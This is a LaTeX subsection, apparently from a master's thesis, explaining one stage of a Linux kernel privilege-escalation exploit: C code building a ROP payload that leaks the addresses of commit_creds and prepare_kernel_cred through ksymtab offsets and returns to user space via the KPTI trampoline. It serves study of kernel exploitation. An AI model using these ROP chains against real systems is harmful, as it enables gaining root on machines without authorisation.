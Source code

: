 \documentclass{masterthesis}
\newcommand{\refToSection}[1]{Section~\ref{sect:#1}\xspace}
\begin{document}
\subsection{Leaking \texttt{commit\_creds} and \texttt{prepare\_kernel\_cred()}}
The goal is to leak \texttt{commit\_creds} and read the \texttt{value\_offset} of \texttt{ksymtab_commit_creds}, then add them together. We want to use our two memory reading gadgets to read it, using the ROP technique introduced in \refToSection{trampoline}, and safely return to the user-land via the KPTI trampoline to prepare for the next step.
\begin{lstlisting}
void stage_1(void){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0; // RBX
    payload[off++] = 0x0; // R12
    payload[off++] = 0x0; // RBP
    payload[off++] = pop_RAX_ret; // return address
    payload[off++] = ksymtab_commit_creds - 0x10; // RAX <- __ksymtabs_commit_creds - 0x10
    payload[off++] = read_mem_pop1_ret; // RAX <- [__ksymtabs_commit_creds]
    payload[off++] = 0x0; // dummy RBP
    payload[off++] = kpti_trampoline; // swapgs_restore_regs_and_return_to_usermode + 22
    payload[off++] = 0x0; // dummy RAX
    payload[off++] = 0x0; // dummy RDI
    payload[off++] = (unsigned long)get_commit_creds;
    ....
}
void get_commit_creds(void){
    __asm__(
        ".intel_syntax noprefix;"
        "mov tmp_store, RAX;"
        ".att_syntax;"
    );
    commit_creds = ksymtab_commit_creds + (int)tmp_store;
    printf("    --> commit_creds: %lx\n", commit_creds);
    stage_2();
}
\end{lstlisting}
Second stage is exactly the same as \texttt{stage_1} above:
\begin{lstlisting}
void stage_2(void){
    ...
    //the same as 1 stage
    ...
    payload[off++] = ksymtab_prepare_kernel_cred - 0x10; // RAX <- __ksymtabs_prepare_kernel_cred - 0x10
    payload[off++] = read_mem_pop1_ret; // RAX <- [__ksymtabs_prepare_kernel_cred]
    payload[off++] = 0x0; // dummy RBP
    payload[off++] = kpti_trampoline; // swapgs_restore_regs_and_return_to_usermode + 22
    payload[off++] = 0x0; // dummy RAX
    payload[off++] = 0x0; // dummy RDI
    payload[off++] = (unsigned long)get_prepare_kernel_cred;
    ....
}

void get_prepare_kernel_cred(void){
    __asm__(
        ".intel_syntax noprefix;"
        "mov tmp_store, RAX;"
        ".att_syntax;"
    );
    prepare_kernel_cred = ksymtab_prepare_kernel_cred + (int)tmp_store;
    printf("    --> prepare_kernel_cred: %lx\n", prepare_kernel_cred);
    stage_3();
}

\end{lstlisting}
\end{document}
